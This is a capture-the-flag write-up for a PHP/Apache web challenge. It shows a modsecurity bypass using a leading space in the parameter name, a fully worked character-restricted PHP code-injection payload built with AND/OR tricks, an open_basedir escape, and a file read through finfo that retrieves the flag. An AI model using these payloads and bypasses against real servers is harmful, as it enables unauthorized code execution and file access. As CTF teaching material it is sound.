







# w3f challenge

## Description

link:http://web2.q21.ctfsecurinets.com:8081/
Note:flag location is /

## Writeup



By reading the source code, we can see the web app is filtering our input (cmd param)
through waf() function, to safely remove unwanted characters, and then `echo`ing the result
within an `eval`.

First let's try some whitelisted characters, like numbers





Hummm, weird, all numbers should print correctly, so what's going on ?
At this point i kept trying and trying, and then read the description again and found
there is an attachment file, it's the configuration file of Apache.



Basically, the Apache module `modsecurity` is used, it is checking if the input in 
`cmd` param is not `1` then it throws a `403` error.

Looks like we have to bypass Apache waf first.
I'll divide this writeup into 4 parts, for a better structure.

### Part 1: Bypassing Apache's WAF

This part is quite easy to find, the way Apache read parameters names is different
than how Php read them.

When Apache is expecting a `cmd` param, it means it is expecting it to be exactly `cmd`. But PHP in the other hand STRIP any spaces in the begining of the name.

So we just need to add a space before `cmd` and we're good to go.



### Part 2: Bypassing PHP's Waf

Now, comes the hardest part, we have to find a way to execute php code without all the blacklisted chars.

After removing all blacklisted chars, we are left with

```
0 1 2 3 4 5 6 7 8 9 a e l v ! # % & ( )
* + , - . / : ; < = > ? @ _ ` { | }
```

The way to go, is to form other characters using only those.
Usually we use the XOR operator `^`, because in PHP if we XOR two strings
it returns a string. For example:

```php
php > echo "A"^"&";
g
```

We're going to use the same technique but using AND and OR operators (`&` and `|`)
which is a bit harder because they are not reversible, so we need to bruteforce all combinations of 2 chars among the allowed ones, and see what we can get.

The final payload we want to get is `eval($_GET[a]);`, most teams who solved it used `eval($_SERVER[HTTP_E]);` because it is easier to form i guess, but i prefer my payload because it is shorter.

By using this small script:
```python
import itertools,string
allowed="eval0123456789_"
for a,b in itertools.combinations(allowed,2):
   x = chr(ord(a) & ord(b))
   y = chr(ord(a) | ord(b))
   if x in string.printable:
     print(f"{x} = {a} & {b}")
   if y in string.printable:
     print(f"{y} = {a} | {b}")
```

We re-run the script a few times by adding the new chars we found. and after few tries we get these chars:
```
` = a & v
d = e & v
w = e | v
m = e | l
~ = v | l
x = 8 | `
p = 0 | `
q = 0 | a
t = 0 | d
s = 2 | a
u = 4 | a
r = 2 | `
y = 9 | a
i = m & y
A = a & _
; = 2 | 9

( = 8 & l
) = 9 & m
} = l | 1
{ = 9 | s
$ = l & 7
E = e & _
T = t & _
```

But this is not enough, we still have `G` and `[]` left.
Array in php can be used with `{}` instead of `[]`.
So the only letter left is `G`.

We can get another 3 letters for free by using  some PHP predefined constants like `INF` which is returned when we try to calculate a very big number, or a division by zero.

```php
php > echo (9/0);
INF
```

To get the letters, we concatenate `(9/0)` with a character and take the first char with `{0}` like this:

```php
php > echo ((9/0).a){0}
I
```

So now we have:
```
I = ((9/0).a){0}
N = ((9/0).a){1}
F = ((9/0).a){2}
```

Let's add them to the allowed chars and re-run the script, we get:
```
G = F | A
```

Let's reconstruct these chars using only the original allowed chars:

(Note that working with digits is a little bit different, we have to write it inside `()` and also concatenate it with another letter, this way it can be recognized as string)

```
( = (((8)._)%26(l._)){0}
$ = (((7)._)%26(l._)){0}
G = (((9/0).a){2}|(a%26_))
E = (e%26_)
T = ((((0)._)|((e%26v)._)){0}%26_)
{ = (((9)._)|(((((2)._)|(a._)){0})._)){0}
} = ((l._)|((1)._)){0}
) = (((9)._)%26((e|l)._)){0}
; = (((2)._)|((9)._)){0}
```

Finally, the final payload for `eval($_GET[a]);` is:

```
e.v.a.l.(((8)._)%26(l._)){0}.(((7)._)%26(l._)){0}._.(((9/0).a){2}|(a%26_)).(e%26_).((((0)._)|((e%26v)._)){0}%26_).(((9)._)|(((((2)._)|(a._)){0})._)){0}.a.((l._)|((1)._)){0}.(((9)._)%26((e|l)._)){0}.(((2)._)|((9)._)){0}
```

Add and eval() around it, and param `a=phpinfo();` and we're done



We notice a few things in `phpinfo`:
- Open_basedir is set only to `/var/www/html/`
- Almost all php functions are disabled


The first thing i did was to grab all disabled functions and compare them to all built-in php functions (you can get that by executing `get_defined_functions()`) and leave only the few allowed functions left, also i removed unnecessary functions like `mysql_*`. I got this list:

```php
['strlen', 'error_reporting', 'preg_match', 'phpinfo', 
'ord', 'getenv', 'show_source', 'ini_set', 'header', 
'chdir']
```

I did the same with the disabled classes (you get the list with `get_declared_classes()`), i got this list:

```php
['Exception', 'ErrorException', 'CompileError', 'ClosedGeneratorException', 
'WeakReference', 'ReflectionReference', 'FFI\\Exception', 'FFI\\ParserException', 'FFI', 'FFI\\CData',
 'FFI\\CType', 'finfo', 'JsonException']
```

Interesting, we can see that `finfo` is enabled, which will help us read files, but first we have to bypass open_basedir

### Part 3: Bypassing open_basedir

There is a well known trick to do it, by playing with subdirectories and changing some config values with `ini_set` we can easily bypass it.

The classical way to do it is with this code:

```php
chdir('/tmp');
mkdir('sub');
chdir('sub');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
```

But this won't work because `tmp` is not within the allowed paths, and `mkdir` is disabled, so we have to find a subdirectory inside `/var/www/html` and use it.

Luckily, a quick scanning with `gobuster` reveals a folder `images`, so the above code becomes

```php
chdir('images');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..');
ini_set('open_basedir','/');
```
It's easy to understand, first we `cd` to a subfolder that we have access to, in this case `images`.

we change the `open_basedir` value to `..`, now what happens is that php checks if the new value is allowed based on the old value, in this case it is allowed because we are inside `images` and it's parent directory is `/var/www/html/` so obviously it's allowed.

Now we can access everything one directory level above our current directory, so we just traverse the tree upwards to list all files;

and then to be able to list all files no matter where we are in the tree, we `cd` into `/` by going upwards 4 times and then change `open_basedir` to `/`.

However, we can't test yet if this works, because we have no way to list files, so we have to read the flag directly.

### Part 4: Reading the flag file

#### FINFO to the rescue

Using finfo, we can specify a file to read, and finfo will return lots of errors and warnings, and between them the content of file we want to read.

First we have to enable warnings to be able to see something, we can do it with the following code:

```php
ini_set('display_errors',1); 
error_reporting(E_ALL);
```

One problem is left: How to read the flag file without knowing it's name ?

The best thing about `finfo` is you can not only read files, but also read directories, like this:
```php
new finfo(0,'/');
```

Let's assemble everything and read this damn flag:

```php
ini_set('display_errors',1);error_reporting(E_ALL);chdir('images');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');new finfo(0,"/")
```



### Flag: 

`securinets{87E4C6A81CD3104AE4ADBF0758268134D0B}`